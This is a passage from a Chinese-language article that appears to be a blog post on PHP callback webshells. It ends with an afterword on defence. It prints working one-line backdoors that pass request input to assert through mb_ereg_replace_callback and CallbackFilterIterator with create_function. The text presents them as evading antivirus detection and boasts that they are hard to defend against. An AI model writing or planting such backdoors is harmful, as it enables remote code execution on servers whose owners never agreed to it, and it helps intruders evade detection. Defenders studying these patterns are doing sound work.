 “创造”一个函数，它接受一个数组，并将数组的第一个元素`$arr[0]`传入`assert`。

这也是一个不杀不报稳定执行的回调后门，但因为有`create_function`这个敏感函数，所以看起来总是不太爽。不过也是没办法的事。 类似的，这个也同样：

```
mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

```

再来一个利用`CallbackFilterIterator`方法的回调后门：

```
$iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));
foreach ($iterator as $item) {
    echo $item;
}

```

这里也是借用了`create_function`来创建回调函数。但有些同学就问了，这里创建的回调函数只有一个参数呀？实际上这里如果传入`assert`，是会报错的，具体原因自己分析。

0x09 后记
=======

* * *

这一篇文章，就像一枚核武器，爆出了太多无特征的一句话后门。我知道相关厂商在看了文章以后，会有一些小动作。不过我既然敢写出来，那么我就敢保证这些方法是多么难以防御。

实际上，回调后门是灵活且无穷无尽的后门，只要php还在发展，那么就有很多很多拥有回调函数的后门被创造。想要防御这样的后门，光光去指哪防哪肯定是不够的。

简单想一下，只有我们去控制住assert、preg_replace这类函数，才有可能防住这种漏洞。
